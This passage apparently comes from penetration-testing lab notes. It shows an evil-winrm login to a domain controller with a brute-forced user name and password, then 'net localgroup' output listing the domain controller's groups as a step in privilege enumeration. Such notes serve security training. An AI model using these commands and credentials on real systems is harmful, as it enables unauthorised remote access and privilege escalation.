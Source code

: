 ## Connecting to a DC with Evil-WinRM
> Using the credential found in the **Bruteforce section**
```bash
Attacker@xxx[/xxx]$ evil-winrm -i <IP>  -u bwilliamson -p 'P@55w0rd!'
```

## Once connected, we can check to see what privileges **bwilliamson** has. We can start with looking at the local group membership using the command:

```bash
*Evil-WinRM* PS C:\> net localgroup

Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Server Operators
*Storage Replica Administrators
*Terminal Server License Servers
*Users
*Windows Authorization Access Group
The command completed successfully.
```
